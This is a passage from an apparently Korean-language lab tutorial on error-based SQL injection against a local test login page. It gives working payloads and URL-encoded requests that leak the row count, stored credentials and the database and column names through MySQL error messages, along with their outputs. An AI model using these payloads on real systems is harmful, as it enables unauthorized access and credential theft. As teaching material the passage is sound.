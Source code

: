 결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':pw'

## **데이터 확인**

에러 메세지에 사용하고 있는 테이블의 데이터 수를 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COUNT(id) FROM user)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COUNT%28id%29+FROM+user%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':1'

데이터가 1개이니 LIMIT을 사용할 필요가 없고 데이터를 출력하자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT CONCAT(id,0x3a,pw) FROM user)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+CONCAT%28id%2C0x3a%2Cpw%29+FROM+user%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':admin:helloworld'



쿼리 에러 등 SQL 관련 에러를 발생시켜 정보를 획득해볼 수 있다.

ID에 ' and hack()#을 넣고 PW에 아무값을 넣어보자.

    http://192.168.0.58/index.php?userid=%27+and+hack%28%29%23&password=123

데이터베이스 이름이 test임을 알 수 있게 된다.

![](images/2022-05-31-16-06-41.png)

ID에 ' group by having a#을 넣고 PW에 아무값을 넣어보자.

    http://192.168.0.58/index.php?userid=%27+group+by+having+a%23&password=123

SQL 쿼리 중 ID가 들어가는 뒤의 컬럼명을 알 수 있게 된다.

![](images/2022-05-31-16-12-40.png)

논리적 에러를 이용하여 테이블의 가장 먼저 출력되는 값을 얻을 수 있다.
